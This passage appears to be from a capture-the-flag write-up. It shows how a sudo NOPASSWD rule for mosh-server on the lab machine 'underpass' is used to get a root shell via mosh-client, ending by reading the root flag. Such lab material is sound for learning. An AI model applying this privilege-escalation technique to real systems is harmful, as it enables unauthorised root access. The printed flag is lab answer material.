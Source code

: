One of the first commands to run once you have a user shell is `sudo -l` to see if there is any command we can run as root:

```
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

There is `/usr/bin/mosh-server` which we can run as root without a password. "Mosh" seems to be a alternative to SSH. When we run the binary as root it opens a listener on port 60001 and detaches.

```
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60001 0c6s1ydNSFJPXO4VtYvt8Q

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 1769]
```

We can connect to the port using "mosh-client" which we must first install:

```
$ sudo apt install mosh

$ MOSH_KEY=0c6s1ydNSFJPXO4VtYvt8Q mosh-client 10.10.11.48 60001

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jul 25 09:18:22 AM UTC 2025

  System load:  0.0               Processes:             226
  Usage of /:   49.6% of 6.56GB   Users logged in:       0
  Memory usage: 10%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


root@underpass:~# cat /root/root.txt
a0af68a6e1cbca98e35a3f9281b0f51f
```
